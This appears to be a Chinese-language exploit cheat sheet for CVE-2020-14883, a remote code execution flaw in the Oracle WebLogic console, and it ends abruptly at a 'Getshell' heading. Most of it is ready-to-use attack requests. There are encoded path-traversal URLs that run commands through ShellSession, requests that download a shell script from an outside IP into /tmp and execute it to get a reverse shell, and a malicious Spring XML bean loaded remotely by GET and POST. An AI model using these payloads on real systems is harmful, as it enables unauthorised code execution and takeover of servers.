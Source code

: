 ### CVE-2020-14883:
#### com.tangosol.coherence.mvel2.sh.ShellSession
直接执行命令: 只能在12.2.1以上使用, 以前的版本无此类
```shell
# 弹出计算器
http://192.168.1.111:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22)

# POC执行ping ndslog
http://192.168.1.111:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27ping monster.f7iu4d.dnslog.cn%27);%22)
```

反弹shell
```shell
http://139.155.49.43:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('curl http://139.155.49.43:8000/shell.sh -o /tmp/shell.sh');")

http://139.155.49.43:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('bash /tmp/shell.sh');")
```

#### 加载远程项XML文件执行
- `com.bea.core.repackagen.springframework.contaext.support.FileSystemXmlApplicatoinCentext`类
- 通过构造XML恶意文件,保存在目标机中
##### 版本10.3.6.0
> cmd.xml
```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>cmd</value>
            <value>/c</value>
            <value><![CDATA[calc.exe]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```
###### GET方法
```
http://192.168.78.105:7001/console/..%2fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://139.155.49.43:8000/cmd.xml")
```
###### POST方法
```
url:
http://192.168.78.105:7001/console/css/%252e%252e%252fconsole.portal

body:
_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://139.155.49.43:8000/cmd.xml")
```
###### Getshell